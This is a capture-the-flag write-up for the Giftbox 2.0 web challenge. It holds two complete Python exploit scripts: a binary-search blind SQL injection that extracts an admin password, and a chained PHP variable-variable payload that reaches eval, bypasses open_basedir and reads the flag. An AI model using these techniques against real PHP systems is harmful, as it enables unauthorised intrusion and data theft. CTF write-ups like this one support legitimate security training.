







[中文](./readme_zh.md) [English](./readme.md)

[Docker](./docker) [Exp](./exp.py)

# Giftbox WriteUp

以前 1.0 版本 writeup：

[impakho/ciscn2019_giftbox](https://github.com/impakho/ciscn2019_giftbox)

本题是 2.0 版本。



题目页面类似一个网页沙盒。



在源代码 `main.js` 里找到一个提示，提供了 `otp` 的 `python库` 和 `totp` 的参数，方便写脚本。



同样是 `main.js` 里，可以找到用来生成 `totp` 的 `key` 。

出题人注：服务端时间与客户端时间相差大于 `15秒` ，需要先计算正确的 `totp` 才能调用 `shell.php` 。



查看 `usage.md` 可以看到命令用法， `login` 存在注入，没有过滤，用户名和密码长度限制 `100`。

爆破密码脚本：

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

length = 0
left = 0x0
right = 0xff
while True:
    mid = int((right - left) / 2 + left)
    if mid == left:
        length = mid
        break
    username = "'/**/or/**/if(length((select/**/password/**/from/**/users/**/limit/**/1))>=%d,1,0)#" % mid
    password = "b"
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    res = s.get(payload).text
    if 'incorrect' in res:
        left = mid
    else:
        right = mid
print(length)

real_password = ''
for i in range(1, length+1):
    left = 0x20
    right = 0x7e
    while True:
        mid = int((right - left) / 2 + left)
        if mid == left:
            real_password += chr(mid)
            break
        username = "'/**/or/**/if(ascii(substr((select/**/password/**/from/**/users/**/limit/**/1),%d,1))>=%d,1,0)#" % (i, mid)
        password = "b"
        payload = 'login %s %s' % (username, password)
        payload = urllib.quote(payload)
        payload = url % (payload, totp.now())
        res = s.get(payload).text
        if 'incorrect' in res:
            left = mid
        else:
            right = mid
    print(real_password)
    if len(real_password) < i:
        print('No.%d char not in range' % i)
        break
```



得到密码：`hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}`



密码里提示有个隐藏命令 `sh0w_hiiintttt_23333` ，可以得到提示 `eval` 在 `launch` 的时候被调用。

`launch` 前需要先用 `targeting` 设置，不过对输入有限制，这里可以 `fuzz` 一下，得知 `code` 限制 `a-zA-Z0-9` ， `position` 限制 `a-zA-Z0-9})$({_+-,.` ，而且两者的长度也有限制。

这里需要用 `php可变变量` 构造和拼接 `payload` 。

构造用来 `getflag` 的 `payload` ，绕过 `open_basedir` 的限制，写个脚本就能 `getflag` 。

`getflag` 脚本：

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

def login(password):
    username = 'admin'
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def destruct():
    payload = 'destruct'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def targeting(code, position):
    payload = 'targeting %s %s' % (code, position)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def launch():
    payload = 'launch'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    return s.get(payload).text

login('hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}')
destruct()
targeting('a','chr')
targeting('b','{$a(46)}')
targeting('c','{$b}{$b}')
targeting('d','{$a(47)}')
targeting('e','js')
targeting('f','open_basedir')
targeting('g','chdir')
targeting('h','ini_set')
targeting('i','file_get_')
targeting('j','{$i}contents')
targeting('k','{$g($e)}')
targeting('l','{$h($f,$c)}')
targeting('m','{$g($c)}')
targeting('n','{$h($f,$d)}')
targeting('o','{$d}flag')
targeting('p','{$j($o)}')
targeting('q','printf')
targeting('r','{$q($p)}')
print(launch())
```



Flag：`de1ctf{h3r3_y0uuur_g1fttt_0uT_0f_b0o0o0o0o0xx}`